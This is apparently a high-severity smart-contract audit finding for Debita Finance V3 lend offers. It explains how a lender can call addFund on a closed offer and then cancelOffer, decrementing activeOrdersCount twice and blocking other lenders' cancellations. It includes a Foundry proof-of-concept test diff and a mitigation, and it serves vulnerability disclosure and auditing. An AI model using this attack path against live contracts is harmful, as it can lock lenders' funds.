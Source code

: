 Refined Amber Hornet

High

# A malicious lender can obstruct legitimate lenders from canceling or fully fulfilling their offers if the offer is not perpetual.

### Summary

A malicious Lender can exploit the cancellation process of a lender's offer by invoking the `addFund` function followed by the `cancelOffer` function. This allows them to decrease the `activeOrdersCount` multiple times for the same order, resulting in a DoS for the current offer. As a consequence, the lenders of other offers are unable to cancel and the complete  fulfill of the offer can not be executed, preventing its deletion from the `DebitaLendOfferFactory` contract.


### Root Cause

 [Here](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L162-L175). The owner can calls `addFund` to not `activeOrders`.


### Internal pre-conditions

The order is already deleted from `DebitaLendOfferFactory` either after completion or the owner decided to `cancelOffer`.


### External pre-conditions

_No response_

### Attack Path

1. The Lender will calls `addFund` to closed order.
2. The Lender calls the `cancelOffer`.
3. This Attack will decrements the `activeOrdersCount` twice for same order and the attacker can repeat this attack to DoS all Current Offers or `activeOrdersCount` becomes 0.


### Impact

The existing orders cannot be canceled and cannot be fully fulfilled. In case if current Lenders want to withdraw assets it will result in lose of assets for Lender.


### PoC

```diff
diff --git a/Debita-V3-Contracts/test/local/Loan/TwoLendersERC20Loan.t.sol b/Debita-V3-Contracts/test/local/Loan/TwoLendersERC20Loan.t.sol
index d141a51..8a97ce6 100644
--- a/Debita-V3-Contracts/test/local/Loan/TwoLendersERC20Loan.t.sol
+++ b/Debita-V3-Contracts/test/local/Loan/TwoLendersERC20Loan.t.sol
@@ -45,6 +45,8 @@ contract TwoLendersERC20Loan is Test, DynamicData {
     address feeAddress = address(this);
 
     uint receiptID;
+        address aggregator = address(0x12345);
+
 
     function setUp() public {
         allDynamicData = new DynamicData();
@@ -75,10 +77,10 @@ contract TwoLendersERC20Loan is Test, DynamicData {
             address(DebitaV3AggregatorContract)
         );
         auctionFactoryDebitaContract.setAggregator(
-            address(DebitaV3AggregatorContract)
+            address(aggregator)
         );
         DLOFactoryContract.setAggregatorContract(
-            address(DebitaV3AggregatorContract)
+            address(aggregator)
         );
         DBOFactoryContract.setAggregatorContract(
             address(DebitaV3AggregatorContract)
@@ -468,41 +470,18 @@ contract TwoLendersERC20Loan is Test, DynamicData {
         assertEq(balanceBeforeBorrower + 100e6, balanceAfterBorrower);
     }
+    function test_Attack() public {
+        vm.startPrank(aggregator);
+        LendOrder.acceptLendingOffer(5e18);
+        vm.stopPrank();
+        AEROContract.approve(address(LendOrder), 5e18);
+        LendOrder.addFunds(5e18);
+        LendOrder.cancelOffer();
+        assertEq(DLOFactoryContract.activeOrdersCount() , 0); // after this the current offer can not be canceled.
+        vm.expectRevert();
+        vm.startPrank(secondLender);
+        SecondLendOrder.cancelOffer();
+        console.log(DLOFactoryContract.activeOrdersCount());
+    }
```
Run with command : `forge test --mt test_Attack -vvvvvv`


### Mitigation

Don't allow the Lender to addFund when order is not active.